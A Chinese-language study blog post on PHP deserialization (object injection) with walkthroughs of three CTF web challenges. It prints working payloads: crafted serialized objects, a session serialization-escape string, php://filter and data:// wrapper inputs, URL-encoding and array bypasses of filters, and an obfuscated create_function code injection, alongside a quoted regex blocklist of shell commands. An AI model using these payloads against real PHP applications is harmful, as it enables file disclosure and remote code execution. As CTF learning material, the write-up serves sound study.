




前言
第四天，PHP反序列化。
笔记
PHP的序列化与反序列化
• 序列化是将变量转换为可保存或传输字符串的过程
• 反序列化就是在适当的时候把这个字符串再转化成之前的变量来使用
• php进行序列化的目的是保存一个对象方便以后重用
• php提供了serialize和unserialize函数用以进行序列化和反序列化的操作
• Serialize将变量转化为字符串并且在转换中保存当前变量的值
• Unserialize将serialize生成的字符串变换回变量
PHP中的魔术方法
1、__get、__set 这两个方法是为在类和他们的父类中没有声明的属性而设计的 __get( $property ) 当调用一个未定义的属性时访问此方法 __set( $property, $value ) 给一个未定义的属性赋值时调用 这里的没有声明包括访问控制为proteced,private的属性（即没有权限访问的属性）
2、__isset、__unset __isset( $property ) 当在一个未定义的属性上调用isset()函数时调用此方法 __unset( $property ) 当在一个未定义的属性上调用unset()函数时调用此方法 与__get方法和__set方法相同，这里的没有声明包括访问控制为proteced,private的属性（即没有权限访 问的属性）
3、__call __call( $method, $arg_array ) 当调用一个未定义(包括没有权限访问)的方法是调用此方法
4、__autoload __autoload 函数，使用尚未被定义的类时自动调用。通过此函数，脚本引擎在 PHP 出错失败前有了最后 一个机会加载所需的类。 注意: 在 __autoload 函数中抛出的异常不能被 catch 语句块捕获并导致致命错误。
5、__construct、__destruct __construct 构造方法，当一个对象被创建时调用此方法，好处是可以使构造方法有一个独一无二的名 称，无论它所在的类的名称是什么，这样你在改变类的名称时，就不需要改变构造方法的名称 __destruct 析构方法，PHP将在对象被销毁前（即从内存中清除前）调用这个方法 默认情况下,PHP仅仅释放对象属性所占用的内存并销毁对象相关的资源.，析构函数允许你在使用一个对 象之后执行任意代码来清除内存，当PHP决定你的脚本不再与对象相关时，析构函数将被调用.，在一个 函数的命名空间内，这会发生在函数return的时候，对于全局变量，这发生于脚本结束的时候，如果你想 明确地销毁一个对象，你可以给指向该对象的变量分配任何其它值，通常将变量赋值勤为NULL或者调用 unset。
6、__clone PHP5中的对象赋值是使用的引用赋值，使用clone方法复制一个对象时，对象会自动调用__clone魔术方 法，如果在对象复制需要执行某些初始化操作，可以在__clone方法实现。
7、__toString __toString方法在将一个对象转化成字符串时自动调用，比如使用echo打印对象时，如果类没有实现此方 法，则无法通过echo打印对象，否则会显示：Catchable fatal error: Object of class test could not be converted to string in，此方法必须返回一个字符串。 在PHP 5.2.0之前，__toString方法只有结合使用echo() 或 print()时 才能生效。PHP 5.2.0之后，则可以 在任何字符串环境生效（例如通过printf()，使用%s修饰符），但 不能用于非字符串环境（如使用%d修 饰符）。从PHP 5.2.0，如果将一个未定义__toString方法的对象 转换为字符串，会报出一个 E_RECOVERABLE_ERROR错误。
8、__sleep、__wakeup __sleep 串行化的时候用 __wakeup 反串行化的时候调用 serialize() 检查类中是否有魔术名称 __sleep 的函数。如果这样，该函数将在任何序列化之前运行。它可 以清除对象并应该返回一个包含有该对象中应被序列化的所有变量名的数组。 使用 __sleep 的目的是关闭对象可能具有的任何数据库连接，提交等待中的数据或进行类似的清除任务。 此外，如果有非常大的对象而并不需要完全储存下来时此函数也很有用。 相反地，unserialize() 检查具有魔术名称 __wakeup 的函数的存在。如果存在，此函数可以重建对象可 能具有的任何资源。使用 __wakeup 的目的是重建在序列化中可能丢失的任何数据库连接以及处理其它 重新初始化的任务。
9、__set_state 当调用var_export()时，这个静态 方法会被调用（自PHP 5.1.0起有效）。本方法的唯一参数是一个数组 ，其中包含按array(’property’ => value, …)格式排列的类属性。
10、__invoke 当尝试以调用函数的方式调用一个对象时，__invoke 方法会被自动调用。PHP5.3.0以上版本有效。
11、__callStatic 它的工作方式类似于 __call() 魔术方法，__callStatic() 是为了处理静态方法调用，PHP5.3.0以上版本有效 ，PHP 确实加强了对 __callStatic() 方法的定义；它必须是公共的，并且必须被声明为静态的。同样， __call() 魔术方法必须被定义为公共的，所有其他魔术方法都必须如此。
PHP反序列化漏洞原理
· php反序列化漏洞又称对象注入，可能会导致注入，远程代码执行等安全问题的发生。
· php反序列化漏洞如何产生:
如果一个php代码中使用了unserialize函数去调用某类, 该类中会自动执行一些自定义的magic method,这些magic method中如果包含了一些危险的操作，或者这些magic method会去调用类中其他带 有危险操作的函数，如果这些危险操作是我们可控的，那么就可以进行一些不可描述的操作了。
序列化测试
当public、private、protected的成员变量在序列化以后有什么不同。
做题
[网鼎杯2020青龙组]AreUSerialz
废话少说直接上代码
1 |
|
代码审计:
第一、要绕过的的是is_valid。这个很好理解，ord是取字符的ASCII码
1 | int ord ( string $string ) |
所以这个函数就是要验证是否为可见字符。
第二、__construct构造函数看起来是最先执行的，而__destruct析构函数是最后执行。
1 | function __construct() { |
但是代码中$op,$filename,$content均未加this ->。也就是说他根本没改变类中对应属性的值。
第三、在process函数与__destruct函数中的$this->op的比较使用了不同的方法process使用了==，而_destruct中使用了===。由于==存在类型转换的原因，存在比较漏洞。因为如果有数字的存在，那行==比较时会把两边都转为数字。（感谢同事的提点）
第四、protected在序列化的时候会出现%00，这太讨厌了,这属于不可见字符。会被过滤掉。要想办法解决掉。不知道如果把protected改成public能不能行。
尝试构造：
1 |
|
生成得到playload
1 | O:11:"FileHandler":3:{s:2:"op";i:2;s:8:"filename";s:57:"php://filter/read=convert.base64-encode/resource=flag.php";s:7:"content";N;} |
由于没有%00的存在，提交哪个好像都可以。

再解码BASE64得到flag
flag{786817fe-f122-4c41-8d34-1252c2dd49b7}
[安洵杯2019]easy_serialize_php
先上代码
1 |
|
一、大概分析了一个代码，extract($_POST);感觉出现的好诡异。
查了一下手册
解释为extract — 从数组中将变量导入到当前的符号表
按照我自己的理解为，通过POST提交的数据都会直接转换成，当前的变量名=变量值。
这里序列化的就是$_SESSION。那么我就考虑$_SESSION[“hehe”]=变量值来提交。
二、关键函数
$userinfo = unserialize($serialize_info);
echo file_get_contents(base64_decode($userinfo[‘img’]));
反序列化$_SESSION[‘img’]的值，并将这个base64解密值解密，获取一个文件路径内容，并显示到当前页面上。
三、在网上找了一下资料关于PHP序列化的。
发现了一个叫做序列化的逃逸的东西。不知道怎么解释。直接试着操作一下吧。
四、文件路径信息
根据题目中给出的网站源码
https://github.com/D0g3-Lab/i-SOON_CTF_2019/tree/master/Web/easy_serialize_php
有几个文件比较特别，先转换成base64备用
d0g3_f1ag.php:ZDBnM19mMWFnLnBocA==
四、尝试解题
我将源码下载下来在本地测试
1 | $_SESSION["user"] = 'guest'; |
根据网上查到的信息，我现在要做的就是闭合掉这个序列化的值。
这个序列化只会识别第一对{}中间的内容，后面的会抛弃，
而且属性值识别为开始:”,结尾为”;中间的内容。
现在开始改造我能提交的数据
这时候filter的好处就来了,如果提交的数据中包含
‘php’,’flag’,’php5’,’php4’,’fl1g’都会被替换为””
构造提交
1 | _SESSION[fuck_flag_php_php]=he";s:1:"a";s:3:"img";s:20:"ZDBnM19mMWFnLnBocA==";} |

提交后得到了这个么一东西
1 | a:2:{s:17:"fuck___";s:51:"he";s:1:"a";s:3:"img";s:20:"ZDBnM19mMWFnLnBocA==";}";s:3:"img";s:20:"Z3Vlc3RfaW1nLnBuZw==";} |
完美闭合s:17:”fuck___”;s:51:”he”;
正式提交得到
1 | <?php |
将//d0g3_fllllllag转BASE64：L2QwZzNfZmxsbGxsbGFn
再提交
1 | _SESSION[fuck_flag_php_php]=he";s:1:"a";s:3:"img";s:20:"L2QwZzNfZmxsbGxsbGFn";} |
得到flag{2c95fea4-1864-4a87-b05d-ae3bb3c85624}
EzPHP
根据题目提示上
https://github.com/BjdsecCA/BJDCTF2020_January/blob/master/Web/bjdctf2020_web_ezphp/html/
找到关键代码。
1 |
|
一堆需要绕过的东西一步一步来吧。
$_SERVER[‘QUERY_STRING’]绕过
PHP中$_SERVER[‘QUERY_STRING’]接收到的数据是不会通过URLDecode转码的，而$_GET[]、$_POST[]会，所以只要进行url编码即可绕过。
preg_match绕过
第一段要绕过的是
1 | preg_match('/http|https/i', $\_GET\['file'\]) |
不让file传入http和https;
第二段要绕过的是
1 | preg_match('/^aqua_is_cute$/', $_GET['debu']) && $_GET['debu'] !== 'aqua_is_cute' |
preg_match只匹配第一行，在句尾加上%0a(换行符)即可绕过。
构造一个playload测试一下前面几步的分析。
1 | ?%64%65%62%75=%61%71%75%61%5f%69%73%5f%63%75%74%65%0A |
返回如下结果
1 | This is a very simple challenge and if you solve it I will give you a flag. Good Luck! |
看来是可行的。
$_REQUEST绕过
1 | if($_REQUEST) { |
$_REQUEST是同时接受GET和POST的数据。而且POST的优先级更高。所以如果POST和GET的参数名一样时，会先使用POST传过来的值。
这里的正则是只如果包含字母，就退出。POST数字即可。

文件内容绕过
1 | file_get_contents($file) !== 'debu_debu_aqua' |
这里是读取一个文件的内容然后跟debu_debu_aqua比较。由于不能使用http和https协议通过网络获取文件。只能考虑用别的方式。（FTP也许行，可惜没有外网服务器）这里考虑使用PHP伪协议。网上说php://input或data://这两个比较靠谱。
php://input是将post过来的数据全部当做文件内容
data://有以下几种用法
data://text/plain,
data://text/plain;base64,PD9waHAgcGhwaW5mbygpPz4=
那么我自己构造一个data://来测试一下吧。
1 | file=data://text/plain;base64,ZGVidV9kZWJ1X2FxdWE= |
然后转urlencode一下得到
1 | %66%69%6c%65=%64%61%74%61%3a%2f%2f%74%65%78%74%2f%70%6c%61%69%6e%3b%62%61%73%65%36%34%2c%5a%47%56%69%64%56%39%6b%5a%57%4a%31%58%32%46%78%64%57%45%3d |
sha1绕过
与MD5绕过一样，PHP中sha1函数不会解析数组。可以直接使用数组绕过。
1 | shana[]=1&passwd[]=2; |
1 | %73%68%61%6e%61[]=1&%70%61%73%73%77%64[]=2 |
最终关卡
关键点一
1 | extract($_GET["flag"]); |
通过这个用户提交的flag向$code和$arg传递最终的破解内容。
关键点二
1 | preg_match('/fil|cat|more|tail|tac|less|head|nl|tailf|ass|eval|sort|shell|ob|start|mail|\`|\{|\%|x|\&|\$|\*|\||\<|\"|\'|\=|\?|sou|show|cont|high|reverse|flip|rand|scan|chr|local|sess|id|source|arra|head|light|print|echo|read|inc|flag|1f|info|bin|hex|oct|pi|con|rot|input|\.|log|\^/i', $arg) ) |
过滤掉了很多东西，需要绕过。
已知的办法有
1、get_defined_vars()绕过。
2、define 定义变量， fopen fgets获取文件内容。
3、取反绕过+伪协议读源码
4、但是可以^异或和~按位取反绕过。
关键点三
1 | $code('', $arg); |
这里的考点就是create_function函数。
这个东西真有点不好理解,上代码帮助自己理解。
1 |
|
测试代码一：
1 | flag[code]=create_function; |
1 | %66%6c%61%67[%63%6f%64%65]=%63%72%65%61%74%65%5f%66%75%6e%63%74%69%6f%6e& |
结果不对。得想另一种办法了。使用PHP伪协议试试。
写一个取反的代码。
1 | echo rawurlencode(";}require(~(".~"php://filter/read=convert.base64-encode/resource=rea1fl4g.php"."));//"); |
合并构造一下。

终于拿到了flag。